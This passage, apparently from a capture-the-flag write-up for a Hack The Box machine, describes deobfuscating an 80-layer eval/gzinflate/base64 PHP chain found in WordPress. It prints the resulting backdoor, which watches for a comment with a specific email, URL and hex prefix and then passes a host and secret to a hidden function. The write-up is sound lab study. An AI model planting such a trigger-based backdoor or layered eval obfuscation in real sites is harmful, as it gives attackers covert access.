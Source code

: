 Some googling for PHP deobfuscators found many. Many of them choked on
this code, but [this one from
Mobilefish](https://www.mobilefish.com/services/eval_gzinflate_base64/eval_gzinflate_base64.php)
handled it very nicely, providing deobfuscated code and this report:



    Number of decoded steps applied
    =======================================================================
    80

    The PHP code is encoded by the following nested functions sequence
    =======================================================================
    001 - eval(gzuncompress(str_rot13(base64_decode('...'))))
    002 - eval(gzinflate(base64_decode(str_rot13('...'))))
    003 - eval(gzinflate(base64_decode(strrev(str_rot13('...')))))
    004 - eval(gzinflate(base64_decode(str_rot13('...'))))
    005 - eval(gzinflate(str_rot13(base64_decode('...'))))
    ...[snip]...
    071 - eval(gzinflate(base64_decode(str_rot13('...'))))
    072 - eval(gzinflate(base64_decode(str_rot13(strrev('...')))))
    073 - eval(gzinflate(base64_decode(rawurldecode('...'))))
    074 - eval(gzuncompress(base64_decode('...')))
    075 - eval(gzinflate(base64_decode('...')))
    076 - eval(gzuncompress(base64_decode(str_rot13('...'))))
    077 - eval(str_rot13(gzinflate(str_rot13(base64_decode('...')))))
    078 - eval(gzinflate(base64_decode(strrev('...'))))
    079 - eval(gzinflate(str_rot13(base64_decode('...'))))
    080 - eval(str_rot13(gzinflate(base64_decode('...'))))



I added some whitespace to the code to make the result more readable:



    if ($comment_author_email == "help@toby.htb" && $comment_author_url== "http://test.toby.htb/" && substr($comment_content,0,8) == "746f6279" {
        $a=substr($comment_content,8);
        $host=explode(":",$a)[0];
        $sec=explode(":",$a)[1];
        $d="/usr/bin/wordpress_comment_validate";
        include $d;
        wp_validate_4034a3($host,$sec);
        return new WP_Error('unspecified error');
    }



The code is looking for a comment with the email "help@toby.htb", a
specific url, and a comment that starts with eight specific characters.
It then takes the rest of the content and splits (`explode`) it on ":",
with the first saved as `$host` and the second as `$sec`. It then passes
those to a function I don't have access to at this time.

### Trigger
